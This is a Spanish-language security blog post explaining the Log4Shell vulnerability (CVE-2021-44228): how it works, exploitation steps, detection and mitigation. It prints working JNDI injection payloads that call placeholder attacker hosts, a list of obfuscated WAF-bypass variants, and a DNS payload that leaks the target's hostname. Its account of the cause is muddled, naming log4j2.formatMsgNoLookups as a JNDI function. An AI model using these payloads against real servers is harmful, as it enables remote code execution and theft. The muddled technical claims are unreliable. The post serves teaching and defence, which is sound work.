 ```yaml
---
layout: single
title: '<span class="post">Log4Shell para dummies (CVE-2021-44228)</span>'
excerpt: "La vulnerabilidad Log4Shell hay estado revolucionando a las empresas desde que se descubrió, en este post contaré en que consiste, como detectarla, explotarla y mitigarla."
date: 2021-12-16
header:
  teaser: /assets/images/log4shell/logo.png
  teaser_home_page: true
categories:
  - post
tags:  
  - log4shell
  - cve-2021-44228
  - log4j
  - java
  - zero-day
  - cibersecurity
show_time: true
toc: true
toc_label: "Content"
toc_sticky: true
---
```


# Contextualización

La vulnarabilidad de tipo RCE ocurre debido a que la función `log4j2.formatMsgNoLookups`

existente en la librería JNDI, la cual se usa para acceder a recursos externos o referencias de Java y esta no realiza un correcto control del valor cargado, seguidamente con LDAP indicamos donde se quiere acceder. Así que, quien ataque puede enviar una petición, ya sea:

- Para obtener recursos mediante la inyección de código previamente encodeada en Base 64.
- Obtener una conexión reversa (reverse shell) a través de la carga remota de un archivo escrito en Java y ya compilado, `Exploit.class` el cual se va interpretar al ser cargado por el servidor.
- Ejecución de código arbitrario sobre el servidor objetivo.

Ya que el servidor descarga, almacena y carga lo que obtenga por parte del recurso externo (en el caso de un atacante, su propio servidor).

# Exploit

El payload lleva comúnmente el formato `${jndi:ldap://IP_SERVER_ATACANTE/file}`

- El atacante envía un parámetro manipulado ( por ejemplo ?x=) al servidor (por HTTP u otro protocolo). Por ejemplo la siguiente cadena: `${jndi:ldap://sitio-malicioso.com/exp}` mediante una petición GET.
- El servidor vulnerable recibe la solicitud con el *payload*.
- La vulnerabilidad en *Log4j* permite que el *payload* se ejecute y el servidor realiza una petición al sitio del atacante. La petición se realiza a través del protocolo JNDI.
- La respuesta desde el servidor del atacante contiene un archivo Java remoto (por ejemplo, un archivo *exploit.class*) que se inyecta en el proceso que está ejecutando el servidor vulnerable.
- Se ejecuta código en el servidor vulnerable.

<a href="/assets/images/log4shell/explotacion.png"><img src="/assets/images/log4shell/explotacion.png"></a>

Aunque el payload puede ser interceptada por un WAF fácilmente, este se puede bypassear de ilimitadas formas:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

Estos consisten en variar y tratar de que no se envíe de forma clara el payload.

Además hay otro protocolo que se puede aprovechar, `rmi` el cual se puede usar con la utilidad `mashalsec` y se ve en el último payload mostrado.

<a href="/assets/images/log4shell/defensas.png"><img src="/assets/images/log4shell/defensas.png"></a>

> Nota: Hay que considerar que cada producto afectado (Apache, Cisco, RedHat, Citrix, etc.. )de 4j en base a su configuración u arquitectura de red se explotan de forma diferente. (En la mayoría basta con la modificación del payload para bypassear posibles WAFs)
> 

# Detección

Para detectar la vulnerabilidad sin causar daños al activo, deberemos realizar los pasos mostrados en la sección de Explotación. Pero tratando se usar un payload que simplemente accedamos a nuestro servidor, por ejemplo: `${jndi:ldap://IP_SERVER_ATACANTE}`

Posteriormente al lanzarla ya sea con ese payload o una variante a modo de bypass, si recibimos una petición en nuestro servidor, podremos confirmar que nuestro objetivo es vulnerable.

Hay varias opciones a la hora de interceptar la petición:

- Montar servidor HTTP para capturar peticiones entrantes (por ejemplo, con Python) y poder así confirmar que se ha recibido la petición al servidor a la que apuntavamos en el código inyectado.
- Podemos ayudarnos de un servidor DNS, para que mediante el encodeo del nombre del target en la petición, se reciba la petición con el nombre del host afectado, confirmando así que es vulnerable.
    
    Ejemplo: `${jndi:ldap://x${hostName}.dns1.myserver.com/a}`
    
- Usando Nuclei y utilizando como servidor receptor de peticiones `interactsh`
    - [Enlace a plantilla de Nuclei](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml)

# Variantes de la vulnerabilidad

- **CVE-2021-45046**
    
    Está variante permite generar un ataque de denegación de servicios (DoS), dicha vulnerabilidad tiene una severidad relativamente baja y una complejidad de explotación alta.
    
    Dicha variante se aprovecha de la misma vulnerabilidad de JNDI, aunque a diferencia de Log4Shell esta gracias al control sobre el Mapa de Contexto de Hilos (MDC) cuando no se utiliza una patron de diseño predeterminado, se puede crear datos de entrada maliciosos mediante un patrón de búsqueda JNDI que concluye en un ataque DoS.
    

# Versiones Afectadas

`Log4j 2.0 a 2.14.1`

# Mitigación

Actualizar la librería a la versión `Log4j 2.16`

- **CVE-2021-44228:**
    - Se ha eliminado completamente la funcionalidad afectada.
- **CVE-2021-45046:**
    - Se ha eliminado el soporte para patrones de búsqueda de mensajes y se ha deshabilitado la funcionalidad JNDI por defecto.